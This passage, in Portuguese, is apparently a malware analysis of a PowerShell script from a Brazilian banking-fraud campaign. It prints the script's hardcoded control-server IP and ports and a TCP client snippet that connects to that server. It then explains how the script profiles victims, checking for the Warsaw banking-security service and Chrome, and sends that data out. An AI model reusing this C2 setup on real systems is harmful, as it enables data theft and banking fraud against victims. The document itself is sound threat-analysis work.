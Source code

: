 ```powershell
$serverIP = "142.54.185.178"  
$serverPort = 5555            
$textServerPort = 5556        
```

Também é definido alguns arquivos e id da extensão do chrome web store. O script `ProcessoTrabalhista.bat` é o mesmo da nota fiscal. Já o trecho:

```powershell
$textClient = New-Object System.Net.Sockets.TcpClient
$textClient.Connect($textServerIP, $textServerPort)
$textStream = $textClient.GetStream()
$textWriter = New-Object System.IO.StreamWriter($textStream)
$textWriter.AutoFlush = $true
```

estabelece uma **conexão de rede TCP client-server** para comunicação em tempo real. Em que:

1. **`$textClient = New-Object System.Net.Sockets.TcpClient`**  
   - Cria um objeto `TcpClient`, que permite comunicação via protocolo TCP/IP.

2. **`$textClient.Connect($textServerIP, $textServerPort)`**  
   - Conecta-se a um servidor remoto usando o endereço IP (`$textServerIP`) e porta (`$textServerPort`) especificados.  
   - Exemplo: Se `$textServerIP = "192.168.1.100"` e `$textServerPort = 4444`, tenta uma conexão com essa máquina na porta 4444.

3. **`$textStream = $textClient.GetStream()`**  
   - Obtém o fluxo de dados (*NetworkStream*) da conexão TCP estabelecida, permitindo leitura/escrita de bytes.

4. **`$textWriter = New-Object System.IO.StreamWriter($textStream)`**  
   - Cria um `StreamWriter` para enviar **dados em formato de texto** pelo fluxo da rede (converte texto para bytes automaticamente).

5. **`$textWriter.AutoFlush = $true`**  
   - Habilita o envio imediato dos dados sem armazenamento em buffer (cada escrita é enviada instantaneamente ao servidor).

### **2. Coleta de Informações do Sistema**  

Após a configuração inicial e do ambiente, o script coleta algumas informações do computador da vítima:

- **Nome do Computador**: `$env:COMPUTERNAME`  
- **Sistema Operacional**: Captura via `Win32_OperatingSystem`.  
- **Endereço IP Público**: Usa `api.ipify.org` para obter ip publico da vítima.  
- **Estado do Serviço "Warsaw Technology"**: Serviço relacionado a segurança bancária no Brasil.  
- **Presença do Google Chrome**: Verifica se o navegador está instalado.  

Possivelmente aqui o objetivo é identificar as máquinas com acesso a sistemas bancários (Warsaw) e navegadores para ataques direcionados.  Esses dados são enviado para o servidor de controle.

### **3. Persistência e Desativação de Segurança**

Esse é outro ponto que chama a atenção, que são as Técnicas de Persistência:  
